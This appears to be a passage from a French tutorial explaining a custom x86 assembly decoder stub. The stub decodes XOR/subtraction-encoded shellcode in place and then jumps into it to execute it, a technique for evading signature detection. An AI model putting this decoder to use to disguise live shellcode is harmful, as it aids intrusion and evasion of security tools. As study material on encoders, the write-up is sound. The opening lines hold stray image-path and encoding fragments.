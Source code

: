 ```\x04 | ((\x01 ^ \x02) + \x04) | \x02 + \x04  => \x04\x07\x06```


```

Ci-dessous le décodeur :


Nous recuperons l'adresse pointant vers le shellcode puis sauvegardons cette addresse sur la pile. Nous copions également cette adresse dans le registre edi afin de pouvoir utiliser les deux offsets.
Nous définissons également la valeur du shellcode via le registre ecx.


```c
	pop esi                 ; adresse of shellcode
	push esi                ; save the address on the stack
	mov edi, esi            ; copy shellcode address on edi
	xor ecx,ecx
	mul ecx	                ; eax, edx, ecx = 0
	
	mov cl, 0x17            ; set the length of the shellcode
```

La partie principal du décodeur est détaillée ci-dessous:
Les registres sont réinitisalisés à 0, al va contenir le premier octet du shellcode et nous verifions si nous sommes en présence de la valeur 0xFF. Ce marqueur est le signe que le shellcode possède une longueur impaire et doit être traité différement. 

La suite de l'algorithme est décrite dans la première partie du document.

Nous utilisons esi et edi comme offset, edi pour le décodage et esi pour réécrire le shellcode décodé.
Une fois cela fini nous sautons à la section final qui est en fait un appel vers la valeur en haut de la pile soit le push esi du début du programme.

Cela à pour conséquence d'exécuter le shellcode décodé.

```c
_:	
	xor eax, eax						; set eax, ebx, ecx to 0 each turn during the loop
	xor ebx, ebx
	xor edx, edx

	mov byte al, [edi]					; set al with the first byte of the shellcode
	cmp al, 0xff						; al == 0xFF ? 
	jz impair						; if the shellcode len is odd we jump to label impair

	mov byte dl, [edi+1]					; set dl with the second byte of the shellcode
	sub dl, al						; we substract dl with al
	mov byte bl, [edi+2]					; set bl with the third byte of the shellcode
	sub bl, al						; we substract bl with al
	xor dl, bl						; xor dl and bl
	mov [esi], dl						; then we put dl and bl decoded
	mov [esi+1], bl


	inc esi							; because we use esi and edi as offset, we need to increment them
	inc esi
	inc edi
	inc edi
	inc edi

	loop _							; loop while ecx > 0
	jmp short final

    final:
	call [esp]
```
